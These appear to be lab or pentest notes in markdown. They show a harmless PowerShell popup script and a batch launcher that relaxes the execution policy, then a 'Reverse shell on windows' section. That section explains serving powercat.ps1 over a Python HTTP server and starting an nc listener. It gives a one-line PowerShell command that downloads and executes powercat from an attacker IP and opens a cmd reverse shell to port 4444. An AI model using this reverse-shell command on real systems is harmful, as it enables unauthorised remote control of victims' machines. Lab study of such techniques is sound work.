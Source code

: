         ```powershell
        $wshel = New-Object -ComObject WScript
        $wshel.Popup("Hello World", 0, "Done", 0X1)
        ```
        
    2. Make batsh file safefile.bat
    
    ```powershell
    Powershell.exe -executionpolicy remotesigned -File "C:\Users\IEUer\Desktop\popup.ps1"
    ```
    
    ## Reverse shell on windows
    
    Powercat is script in power shell that give us the functionality of netcat so we want the to get the script on the target machine and the make call using powercat to our listing nc. 
    
    - Serve the powercat.ps1 file on simple server python -m http.server 80
    - Start nc -vlp 4444
    - On the target machine the following powershell must be executed
    - 
    
    ```powershell
    powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.200.149:80/powercat.ps1');powercat -c 192.168.200.149 -p 4444 -e cmd"
    ```
    

